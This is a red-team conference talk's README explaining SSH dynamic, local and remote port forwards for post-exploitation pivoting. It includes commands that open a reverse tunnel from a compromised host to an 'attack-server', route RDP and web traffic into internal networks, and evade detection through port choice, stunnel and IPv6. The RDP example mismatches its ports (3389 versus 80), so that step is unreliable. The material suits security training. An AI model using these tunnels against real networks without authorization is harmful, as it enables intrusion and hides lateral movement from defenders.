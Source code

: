 ![fenrir-desktop-bg](https://user-images.githubusercontent.com/8293038/133816238-7152221b-c37d-46ca-831d-ff636178f44f.png)

# SSH Tunnels: Creating Reverse Proxies and Evading Network Detection

This repo is supplemental material for my presentation for [Red Team Village](https://redteamvillage.io) during Hackerone's Hacktivitycon2021. If you have any questions or just want to talk get in touch with me:

- [Twitter](https://twitter.com/cwolff411)
- [Discord](https://discordapp.com/users/354713402733494283)
- [LinkedIn](https://linkedin.com/in/corywolff)
- Email me at yxakl5mae@relay.firefox.com

## Abstract
SSH tunneling is a valuable component of the red teamer's toolkit when used correctly - but that's the hard part. Demystifying reverse port forwards, local port forwards, and dynamic port forwards can be a challenge for any operator. This talk will begin with the basics of SSH tunneling and then focus on ways to utilize them to create reverse proxies and evade network monitoring during an engagement. It aims to provide clarity on the use of these different port forwards and provide examples on how to use them in an offensive security scenario.

## Things to Know
Everything in this discussion is based around post-exploitation scenarios, meaning that you have already landed on a machine, escalated privileges, and are looking to move throughout the network.

### Gateway Ports
In order to access the open ports on your attack server which are then forwarded through SSH on your compromised host, you must enable Gateway Ports in the attack servers `sshd_config`. By default, SSH will only allow connections to the loopback interface on your attack server.

To enable Gateway Ports open `/etc/ssh/sshd_config` and look for the line that says `#GatewayPorts = no`. Remove the `#` and change it to yes. 

When complete, save the file and restart the SSH daemon. On Debian based systems:

`systemctl restart sshd`

## Dynamic Port Forwards
![RTV-SSH Tunnels-Dynamic Port Forward](https://user-images.githubusercontent.com/8293038/133801798-35120a05-e2cf-468c-89b7-3730d65c1a0f.png)

Opens a local port on the client. Any connections made to that port are routed through the SSH tunnel and exits on the server applicable server port depending on the application data. Good way to make a simple SOCKS proxy.

`ssh -D YOUR_LOCAL_PORT username@server`


## Local Port Forwards
![Red Team Village SSH Tunnels Local](https://user-images.githubusercontent.com/8293038/133802535-3488de3a-f2ca-4ab9-bed0-71694c090866.png)

Listens on a specified local port and forwards incoming data through SSH and out the specified remote port. Similar in nature to using a dynamic port forward, with the primary differences:
- Uses the -L flag
- With local port forwarding you can specify the remote port to be used. With dynamic port forwarding, this is handled by SSH

`ssh -L LOCAL_PORT:SELECTED_HOST:REMOTE_PORT`


## Remote Port Forwards
![Red Team Village SSH Tunnels Remote](https://user-images.githubusercontent.com/8293038/133802536-14b4f4df-e60e-4e0a-8a6f-6ddf9b29c118.png)

Listens on a specified remote port and forwards incoming data through SSH and out the specified local port. Similar in nature to using a local port forward, with the primary differences:
- Uses the -R flag

`ssh -R REMOTE_PORT:SELECTED_HOST:LOCAL_PORT`


## Create Pivot Tunnels
![Red Team Village SSH Tunnel Pivot](https://user-images.githubusercontent.com/8293038/133802533-83e88f3a-dd2e-469e-80a4-74bfda580fec.png)

What if we wanted to connect to an internal host running RDP and we have credentials to log in? What if we wanted to browse internal websites? Can't use shell for GUI apps. Using a combination of a dynamic port forward and a remote port forward we can connect to our attack server and route traffic through the compromised host into the internal network.


![Red Team Village SSH Tunnel Close Up Look](https://user-images.githubusercontent.com/8293038/133802532-6270d38e-533e-4334-9e77-98b459cc371e.png)

First create a dynamic port forward on the localhost(compromised machine), then create a remote port forward using that same local port and the selected port on your attack server. You should then be able to set your proxy as your attack server and port, and traverse the internal network.

### Example: Browse Internal Websites

On the compromised host:
`ssh -D 80 -N -f username@localhost`
`ssh -R 54321:localhost:80 root@attack-server`

Using the `-N` and `-f` flags do two things. First the `-N` flag tells SSH that no commands will be sent in the session. Second, the `-f` flag tells SSH to drop to the background. This keeps our terminal clean and keeps us on the command line ready to setup our remote port forward.

You now have a proxy to use for internal port forwarding at `attack-server:54321`

Using proxychains or simply setting the proxy in your browser settings, you can now browse internal websites through your attack machine's browser.

### Example: Connect to Internal RDP Hosts

On the compromised host:

`ssh -D 3389 -N -f username@localhost`

`ssh -R 54321:localhost:80 root@attack-server`

This example is very similar to the previous example except this time you use port `3389` for RDP.

Add your attack server to `/etc/proxychains.conf`:

`socks5	attack-server	54321`

Then use proxychains with `xfreerdp` or your RDP client of choice and you can now connect to that internal host via RDP:

`proxychains xfreerdp /u:fenrir /p:password /v:HOST_IP`

## Evading Detection
Depending on the firewall and IDS/IPS in place, there are a few ways to avoid detection:

- First, try a non-traditional port like `443`. If the monitoring and firewall are basic setups, then simply using a port other than `22` will avoid detection.
- Setup an SSL tunnel to then route your SSH traffic through. SSH uses `encrypt-then-mac` whereas SSL uses `mac-then-encrypt`. Deep packet inspection will not be able to see that it's actually SSH traffic going over the wire. There are some caveats to this though, so make sure to check out the `stunnel` folder in this repo.
- When all else fails try IPv6. The transition to IPv6 has been slow and arduous. Many networks/firewalls/servers/etc support it, but the implementation is less than perfect. Everyone says they know how it all works, but they lie :)

## Fin
Thanks to [Red Team Village](https://redteamvillage.io) for having me during their Hacktivitycon event.

SSH tunnels are an excellent way to use living off the land binaries to pivot and move laterally throughout a network. It took me awhile to wrap my head around all of the options, so I hope this was helpful.

## More Info

- Check out everything you can do with SSH. It's more than just shell access. Read the [manual](https://linux.die.net/man/1/ssh).
- [sshuttle](https://github.com/sshuttle/sshuttle)
- [Ligolo](https://github.com/sysdream/ligolo)